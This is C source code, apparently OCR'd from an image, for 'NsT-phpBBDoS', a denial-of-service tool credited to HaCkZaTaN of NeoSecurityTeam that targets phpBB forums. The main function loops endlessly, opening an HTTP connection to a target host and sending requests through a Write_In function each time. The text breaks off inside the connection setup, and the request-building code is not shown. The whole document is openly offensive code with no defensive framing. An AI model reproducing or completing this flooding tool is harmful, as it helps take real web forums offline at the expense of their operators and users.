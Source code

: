     #define __USE_GNU
    #define _XOPEN_SOURCE

    int Connection(char *, int);
    void Write_In(int , char *, char *a, char *, int);
    char Use(char *);

    int main(int argc, char *argv[])
    {
        int sock, x = 0;
        char *Path = argv[1], *Pro_Sea = argv[2], *Host = argv[3];

        puts("[+] NsT-phpBBDoS v0.1 by HaCkZaTaN");
        puts("[+] NeoSecurityTeam");
        puts("[+] Dos has begun....[+]\n");
        fflush(stdout);

        if(argc != 4) Use(argv[0]);

        while(1)
        {
               sock = Connection(Host,80);
               Write_In(sock, Path, Pro_Sea, Host, x);
               #ifndef WIN32
               shutdown(sock, SHUT_WR);
               close(sock);
               #else
               closesocket(sock);
               WSACleanup();
               #endif
               Pro_Sea = argv[2];
               x++;
        }
        //I don't think that it will get here =)

        return 0;
    }

    int Connection(char *Host, int Port)
    {
            #ifndef WIN32
            #define SOCKET int
            #define INVALID_SOCKET -1
            #else
            int error;
            WSADATA wsadata;
            error = WSAStartup(MAKEWORD(2, 2), &wsadata);

            if (error == SOCKET_ERROR)
            {
                      perror("Could Not Start Up Winsock!\n");
                      return 0;
            }

            #endif
